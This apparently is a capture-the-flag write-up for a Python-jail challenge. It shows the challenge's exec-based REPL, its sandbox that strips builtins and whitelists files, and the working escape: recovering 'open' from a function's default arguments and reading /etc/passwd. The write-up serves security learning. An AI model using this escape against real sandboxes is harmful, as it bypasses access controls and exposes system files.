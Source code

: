 # PHDays Quals PWN 400

PWN 400 is a python jail. We are given a python REPL, but most useful
functions and builtins are deleted from the global namespace. We are
offered one function, **Reader(filename)**, but it can only read three
files:

* log.1
* log.2
* log.3

The files contain dumps of trollfaces :(.

We're also given the source code, which has two files.

**pyjail.py** is the REPL. This is the most important code:

    inp = raw_input('>>> ')
    a = None
    exec 'a=' + inp

**secure_reader.py** is the script that makes the REPL annoying to use.

    UNSAFE_BUILTINS = [
        'open', 'file', 'execfile', 'reload', 'input', 'eval', 'type', 'compile'
        ]

    UNSAFE_ATTRS = [
        '__globals__', '__closure__'
        ]

    ALLOWED_FILES = [
        'log.1', 'log.2', 'log.3'
        ]

...

    del dictionary_of(type)['__subclasses__']
    del dictionary_of(GeneratorType)['gi_frame']
    del dictionary_of(FrameType)['f_code']
    del dictionary_of(FrameType)['f_builtins']
    del dictionary_of(FrameType)['f_globals']
    del dictionary_of(GeneratorType)['gi_code']

So it removes most of the usable functions. Here is how it defines the
Reader function:

    def _Reader(
        open_file=open,
        type=type,
        TypeError=TypeError,
        Namespace=Namespace,
        ):

        @guard(filename=str)
        def Reader(filename):
           if filename not in ALLOWED_FILES:
               raise ValueError("You can't read that shit!")
           data = open_file(filename).read()
           return data

        return Reader

    Reader = _Reader()

The outside function **_Reader** returns the inside function **Reader**,
which is what we have access to. It is important to realize, **If Reader
can read files at all, then it must have access to some file reading
mechanism**. It calls 'open_file', which is really just an alias to
'open'. We get the open function through the Object Tree starting with
the Reader function.

    Reader.func_globals['_Reader'].func_defaults[0]

We can also read the **/etc/passwd** file directly now

    Reader.func_globals['_Reader'].func_defaults[0]('/etc/passwd').read()

Which contains the flag in plaintext.

    41f20268caa093e1b746e5ca750d3aa0

